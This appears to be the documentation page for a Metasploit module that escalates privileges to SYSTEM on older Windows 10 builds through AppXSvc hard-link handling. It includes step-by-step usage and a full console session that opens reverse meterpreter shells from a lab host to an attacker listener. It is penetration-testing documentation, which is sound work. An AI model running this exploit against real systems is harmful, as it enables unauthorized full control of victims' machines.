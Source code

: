 ## Description

  There exists a privilege escalation vulnerability for Windows 10 builds prior to build 17763.
  Due to the AppXSvc's improper handling of hard links, a user can gain full privileges over
  a SYSTEM-owned file. The user can then utilize the new file to execute code as SYSTEM.

  This module leverages a technique discovered by James Forshaw to enable loading and execution
  of a dll with SYSTEM privileges.

## Vulnerable Application

  Windows 10 builds prior to 17763. Windows 10 is available for download [here](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/).

## Verification Steps

  1. Start msfconsole
  2. Get a low-privileged session
  3. Do: ```use exploit/windows/local/appxsvc_hard_link_privesc```
  4. Do: ```set SESSION <session>```
  5. Do: ```set PAYLOAD <payload>```
  6. Do: ```set LHOST <ip>```
  7. Do: ```run```
  8. You should get a shell running as SYSTEM

## Scenarios

### Tested on Windows 10 Version 1709 Build 16299.125

  ```
  msf > use multi/handler
  msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (206403 bytes) to 192.168.37.135
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.135:49985) at 2019-07-08 12:01:09 -0500

  meterpreter > getuid
  Server username: DESKTOP-L5FDSM7\Shelby Pace
  meterpreter > background
  [*] Backgrounding session 1...
  msf exploit(multi/handler) > use exploit/windows/local/appxsvc_hard_link_privesc
  msf exploit(windows/local/appxsvc_hard_link_privesc) > set session 1
  session => 1
  msf exploit(windows/local/appxsvc_hard_link_privesc) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf exploit(windows/local/appxsvc_hard_link_privesc) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(windows/local/appxsvc_hard_link_privesc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 192.168.37.1:4444
  [+] Successfully created hard link
  [*] Attempting to launch Microsoft Edge minimized.
  [*] Writing the payload to disk
  [*] Sending stage (206403 bytes) to 192.168.37.135
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.135:49986) at 2019-07-08 12:02:02 -0500

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : DESKTOP-L5FDSM7
  OS              : Windows 10 (Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  ```
